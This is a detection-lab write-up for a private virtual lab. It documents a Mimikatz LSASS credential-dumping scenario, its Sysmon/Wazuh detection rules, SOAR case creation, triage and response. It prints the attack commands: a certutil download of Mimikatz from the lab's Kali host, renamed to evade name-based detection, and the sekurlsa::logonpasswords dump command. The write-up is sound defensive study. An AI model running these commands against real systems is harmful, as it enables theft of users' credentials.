




# Scenario 05 — [Critical] Credential Dumping (Mimikatz / LSASS)

The post-compromise chain: it continues directly from Scenario 04, taking the
RDP foothold and showing what an attacker does *next* — pull a tool onto the host
and steal credentials out of memory. This is the scenario that exercises the
Credential Access tactic end-to-end and contrasts behavior-based with name-based
detection.

| | |
|---|---|
| **MITRE ATT&CK** | T1003.001 (OS Credential Dumping: LSASS Memory) — chained from T1110 (Scenario 04) via T1105 (Ingress Tool Transfer) |
| **Attacker** | Kali — 192.168.56.10 |
| **Target** | Windows 10 — DESKTOP-T0LOHB5 (192.168.56.30) |
| **Target account** | `Client` — the local admin compromised in Scenario 04 |
| **Detection source** | Wazuh agent → Sysmon (Event ID 10, process access to LSASS; Event ID 1 for the custom rule) |
| **Rules fired** | 92900 (built-in, level 12 — LSASS access, possible credential dump) · 100002 (custom, level 15 — Mimikatz by original filename, logtest-validated) |
| **Reaches** | Detection → SOAR → TheHive case |
| **Status** | ✅ Validated (92900 fired live and raised a TheHive case; see §2–§3) |

---

## 1. Attack

This scenario assumes the foothold from **Scenario 04**: the `Client` account on
the Windows host has been compromised via RDP brute force, giving a hands-on
session on `192.168.56.30`. From there the attacker performs two actions.

> _Note on chronology: the scenarios were exercised independently. This
> credential-dumping run was performed on the same host under the same `Client`
> account, logically continuing the Scenario 04 compromise rather than as one
> unbroken session._

**Step 1 — Pull the tool onto the host (T1105).** Mimikatz is served from Kali
(the same simple HTTP-server pattern used to detonate the phishing IOC in
Scenario 02) and fetched with `certutil`, a signed, built-in Windows binary
(a "LOLBin") — a common way to download tooling without introducing a new
executable downloader:

```bash
# Kali: serve the tool
python3 -m http.server 80
```
```powershell
# Windows (in the compromised session) — note the deliberate rename to m.exe
certutil.exe -urlcache -split -f http://192.168.56.10/mimikatz.exe C:\Users\Public\m.exe
```

The rename to `m.exe` is intentional — it demonstrates that the detections below
do **not** rely on the file's name on disk.

**Step 2 — Dump credentials from memory (T1003.001).** Mimikatz is run against
LSASS to read credential material for accounts logged on to the host:

```powershell
C:\Users\Public\m.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

`privilege::debug` acquires the debug privilege needed to read another process's
memory; `sekurlsa::logonpasswords` is the module that reads LSASS. (Run from an
elevated/SYSTEM context, which the foothold provides.)

> _Evidence: `evidence/scenario-05-creddump/attack-output.txt` — the certutil
> transfer and the Mimikatz command. **The dumped credential material is
> deliberately redacted**: it is stolen secrets, and the detection below is the
> proof the dump occurred, not the loot._

---

## 2. Detection

Two detections cover this activity, and the distinction between them is the
analytic point of the scenario: a **behavioral** rule that caught it live, and a
**name-based** custom rule built alongside it.

### 2a. Behavioral detection — rule 92900 (validated live)

The detection that actually fired is Wazuh's built-in **rule 92900**, driven by
**Sysmon Event ID 10 (process access)**. When Mimikatz opens a handle to LSASS to
read its memory, Sysmon records the cross-process access and 92900 matches it:

```
rule.id            92900   (level 12)
rule.description   "Lsass process was accessed by C:\Users\Public\m.exe
                    with read permissions, possible credential dump"
rule.groups        sysmon, sysmon_eid10_detections, windows
rule.mitre.id      T1003.001   (Credential Access / LSASS Memory)
eventID            10          (Sysmon process access)
sourceImage        C:\Users\Public\m.exe      ← the renamed Mimikatz binary
targetImage        C:\Windows\system32\lsass.exe
grantedAccess      0x1010      (read access to process memory)
sourceUser         DESKTOP-T0LOHB5\Client
```

This is **behavior-based**: it keys on *the act of reading LSASS memory*, not on
any filename, so the rename to `m.exe` is irrelevant — the access itself is the
signal.


*The LSASS-access alert for this run (event `1792790035.929684`): `m.exe`
accessing `lsass.exe`, `grantedAccess 0x1010`, `SourceUser DESKTOP-T0LOHB5\Client`.*


*Event `1792790035.929684` expanded: rule 92900 level 12, MITRE T1003.001, and
`rule.groups` includes `sysmon_eid10_detections` — the group that classifies it as a
Sysmon Event-ID-10 detection (§3 explains why forwarding keys on the specific rule
ID, not this group).*

> _Evidence: `evidence/scenario-05-creddump/wazuh-92900-alert.json`,
> `wazuh-92900-alerts.png`, `wazuh-92900-detail.png`. Authoritative time is the UTC
> `systemTime 21:13:54.557Z`; on cross-host clocks see the
> [README](../../README.md#honesty--scope-notes) convention._

### 2b. Name-based custom rule — rule 100002 (detection-engineering exercise)

Alongside the built-in, a **custom rule 100002** was written to catch Mimikatz by
the identity baked into its binary, using **Sysmon Event ID 1 (process
creation)**. Sysmon logs the **OriginalFileName** field — read from the PE's
embedded version metadata, **not** the file's name on disk. Mimikatz's compiled
binary carries `mimikatz.exe` there, so a rename doesn't change it. Wazuh decodes
it as `win.eventdata.originalFileName`:

```xml
<rule id="100002" level="15">
  <field name="win.system.providerName">^Microsoft-Windows-Sysmon$</field>
  <field name="win.system.eventID">^1$</field>
  <field name="win.eventdata.originalFileName" type="pcre2">(?i)mimikatz\.exe</field>
  <description>Mimikatz Usage Detected (original filename match)</description>
  <mitre>
    <id>T1003</id>
  </mitre>
</rule>
```

Plain-English, line by line:
- `providerName ^Microsoft-Windows-Sysmon$` — only Sysmon events.
- `eventID ^1$` — only Event 1 (process creation).
- `originalFileName (?i)mimikatz\.exe` — case-insensitive regex match on the PE's original filename metadata.
- `level 15` — Wazuh's top severity.

**Status of 100002:** confirmed with `wazuh-logtest` (Phase 3 → rule 100002, level
15, T1003), but **not captured firing live** — including on this re-run, where a
query for `rule.id 100002` returned nothing while 92900 fired and raised a case.
Treat 100002 as a working, logtest-validated custom detection whose live capture
is an optional follow-up (§8). That the behavioral rule caught the run and the
name-based one did not is itself the lesson (§7).

**Why field-matching instead of a Sysmon rule group.** 100002 originally depended
on `<if_group>sysmon_event1</if_group>`, but it never matched. The events decode
correctly (`win.eventdata.originalFileName` is populated), yet on this pipeline the
Windows events are handled by the `windows_eventchannel` decoder, which does not
place them in a `sysmon_event1` group — so the group dependency was never
satisfied. Matching the decoded fields directly (`providerName` + `eventID` +
`originalFileName`) removes the dependency on a group that isn't produced, and is
the pattern Wazuh's own documentation uses for custom Sysmon rules. See
[challenges-and-resolutions.md](../challenges-and-resolutions.md).

### 2c. Ingress-tool-transfer telemetry (certutil)

The `certutil` download also generates a Sysmon Event ID 1 record whose command
line shows the full `http://192.168.56.10/...` URL — the Ingress Tool Transfer
(T1105) half of the chain, visible in telemetry. A custom rule on `certutil.exe` +
`urlcache`/`-f` is an easy add if you want it alerted rather than just observed.

> _Evidence: the `certutil` command line in
> `evidence/scenario-05-creddump/attack-output.txt`._

---

## 3. SOAR → case creation

The manager's Shuffle integration forwards rule **92900** by its specific rule ID
(the rule-ID block in
[`config/ossec-integration.xml`](../../config/ossec-integration.xml)) — **not** via
the `sysmon_eid10_detections` group it belongs to, because that group also carries
benign Event-ID-10 rules (e.g. 92910) that would reach the SOAR as noise. The alert
becomes a Shuffle run and a TheHive case — so a credential-dump detection lands in
front of an analyst automatically, the same path phishing (02), SSH (03) and RDP
(04) take.


*Shuffle run: `rule_id 92900`, `id 1792790035.929684`.*


*TheHive case: `SEVERITY:MEDIUM`, tagged host-based / wazuh, description `Rule
92900 | Agent: Project-Windows | Lsass process was accessed by C:\Users\Public\m.exe
…`. `Reference 1792790035.929684` ties the case to the exact Wazuh event.*

No VirusTotal enrichment applies — this is a host/behavior detection with no
external IP to resolve. (Contrast Scenario 02, where the IOC is a real external IP
and VT enrichment is the point.)

> _Evidence: `shuffle-creddump.png`, `thehive-creddump.png`._

---

## 4. Triage

- **Detection & severity** — the behavioral rule **92900 (level 12)** fired on
  `m.exe` opening `lsass.exe` with `grantedAccess 0x1010` (read). Reading LSASS
  memory from a user-writable path (`C:\Users\Public\`) has essentially **no benign
  explanation** on an endpoint. *Note the two scales: 92900 is level 12 on Wazuh's
  detection scale, but the incident severity is **Critical** — severity is
  impact-based (a confirmed credential dump on a compromised admin host), not the
  detecting rule's number.*
- **The rename tell** — the on-disk name was `m.exe`. The behavioral rule caught
  it regardless; the custom name-based rule (100002) would catch it on the PE's
  embedded `mimikatz.exe` identity. Either way, a benign-looking filename hiding a
  known-bad binary accessing LSASS is itself a strong malicious signal.
- **Correlation across scenarios** — this fired on the same host
  (`192.168.56.30`) and user (`Client`) compromised in Scenario 04. Failed RDP
  logons → lockout → successful logon → **now credential dumping** is a coherent
  attacker progression, not an isolated event. Tying 92900 back to the Scenario 04
  alerts is the analytic core.

**Verdict:** True positive, **Critical**. Confirmed credential-dumping attempt on
an already-compromised host.

---

## 5. Response

Because LSASS was accessed, assume every credential cached in memory on that host
is now stolen (the signed-in user's hash/password, any service credentials, cached
domain credentials). This is a post-exploitation, high-impact event — the
**human-in-the-loop** tier of the response model, but acted on fast:

- **Isolate the host** (`192.168.56.30`) to stop further hands-on activity.
- **Force-reset credentials** for every account that had a session on the box —
  their secrets must be treated as compromised, not just the attacker's entry
  account.
- **Hunt for lateral movement** — dumped credentials are used to move to other
  hosts; check for logons elsewhere using those accounts.

There is no "block the source IP" action here as there is for brute force — the
attacker is already inside, so the response is containment and credential
rotation, not perimeter blocking.

---

## 6. The chain (how it threads the scenarios together)

```
RDP brute force (Scenario 04, T1110)  →  Client compromised
   →  certutil pulls Mimikatz onto the host            (T1105, Ingress Tool Transfer)
   →  Mimikatz dumps credentials from LSASS memory     (T1003.001, LSASS Memory)
```

The Ingress Tool Transfer and the Credential Access steps are directly causally
linked — download the tool, run the tool — so the chain reads as one fluid action
an attacker would actually take.

**Persistence was deliberately not modeled.** This scenario represents a fast
credential-harvesting ("smash-and-grab") operation; establishing persistence is a
common *next* move but was intentionally left out to keep the chain tight. It is
noted as a possible extension rather than a gap.

---

## 7. Lessons Learned

- **Behavior-based detection beats name-based — and here it's the one that fired.**
  The custom name-based rule (100002, OriginalFileName) defeats a simple rename,
  but an attacker who recompiles or strips that PE metadata slips past it. The
  behavioral rule (92900, Sysmon Event ID 10 — process access to `lsass.exe`) keys
  on the *act* of reading LSASS memory, so it caught this run live regardless of
  filename — and on this re-run 92900 fired while 100002 did not. Name-based rules
  catch the lazy case; behavior-based rules catch the capable one — which is why
  92900 is the primary detection and 100002 the complementary one.
- **Why LSASS?** The Local Security Authority Subsystem Service holds credential
  material for signed-in users in memory — password hashes, Kerberos tickets, and
  in some configurations plaintext. "Dumping LSASS" means reading that process's
  memory to steal those credentials, which is exactly what
  `sekurlsa::logonpasswords` does. This is the concept that makes rule 92900,
  "pass-the-hash," and credential theft one connected story.
- **Severity is impact-based, not the detector's number.** The behavioral rule is
  level 12 on Wazuh's scale, yet the incident is **Critical**: a confirmed LSASS
  credential dump means every credential cached on the host must be treated as
  stolen. Severity tracks consequence (impact + confidence), which is why this
  ranks above recon (alert-only) or a single failed logon (noise until correlated).
- **`logtest` success ≠ live detection** (the recurring lab meta-lesson): confirm
  the rule fires on a real Sysmon event with the agent Active, then capture the
  evidence — don't rely on `wazuh-logtest` alone. This is exactly the gap between
  100002 (logtest-passed) and 92900 (caught live and raised a case).

---

## 8. Validation & evidence capture

Validated live on **rule 92900**: the dump was re-run on the compromised host, the
LSASS-access alert fired (event `1792790035.929684`, `21:13:54 UTC`), it forwarded
to Shuffle, and it raised a TheHive case (`Reference 1792790035.929684`) — the full
detection → SOAR → case path. Every artifact in `evidence/scenario-05-creddump/`
carries that event ID.

To reproduce and capture on the manager:

```bash
mkdir -p evidence/scenario-05-creddump

# the behavioral LSASS-access alert (92900) — copy its id, then pull the full record
sudo jq -c 'select(.rule.id=="92900")' /var/ossec/logs/alerts/alerts.json | tail -1
sudo jq 'select(.id=="<THAT_ID>")' /var/ossec/logs/alerts/alerts.json \
  > evidence/scenario-05-creddump/wazuh-92900-alert.json
```

**Screenshots (captured):** the 92900 alert list, the alert detail
(`sourceImage m.exe → targetImage lsass.exe`, `grantedAccess 0x1010`, T1003.001),
the Shuffle run, and the TheHive case — in `evidence/scenario-05-creddump/`.

**Optional follow-up — capture 100002 live.** The custom name-based rule is
logtest-validated but has not been caught firing on a real event (it did not fire
on this re-run). To capture it, confirm the agent collects Sysmon Event ID 1 with
`originalFileName` populated, then:

```bash
sudo jq -c 'select(.rule.id=="100002")' /var/ossec/logs/alerts/alerts.json | tail -1
```

> `docs/mitre-coverage.md` lists T1003.001 as validated, citing this scenario.
